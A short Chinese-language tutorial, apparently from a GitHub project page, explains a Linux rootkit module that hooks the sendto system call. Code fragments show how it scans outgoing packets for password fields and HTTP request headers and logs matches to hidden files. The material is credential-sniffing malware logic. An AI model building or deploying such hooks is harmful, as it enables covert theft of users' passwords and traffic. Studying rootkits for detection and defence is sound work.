 ## **监控网络数据包传输**### packet记录模块rootkit通过设置钩子，钩住进程所调用的某些函数，对函数中的数据进行监视，并保存一些感兴趣的内容，比如http请求或者密码内容，将它们保存在指定的目录下。### 步骤：
监视网络发送 hook send系统调用
hook send函数
` long new_sys_sendto(int fd, void __user *buff_user, size_t len,unsigned int flags, struct sockaddr __user *addr, int addr_len)`
其中fd是文件描述符，通过文件描述符fd，找到对应的socket实例。

如果packet的长度为0或者没有成功执行拷贝操作则goto end。

否则，接下来

`password_found()`检查数据包内容是否包含密码

```if(strnstr(buf, "password=", size))
        return 1;
if (strnstr(buf, "pass=", size))
        return 1;
if (strnstr(buf, "haslo=", size)) //password in polish
        return 1;
    return 0;

```   

`http_header_found()`检查是否包含http头

```
 if (strnstr(buf, "POST /", size))
        return 1;
    if (strnstr(buf, "GET /", size))
        return 1;
    return 0;
```
    
如果包含密码或者http头，都将内容通过 `save_to_log()`保存至etc的相应文件etc/passwords和etc/http_requests。
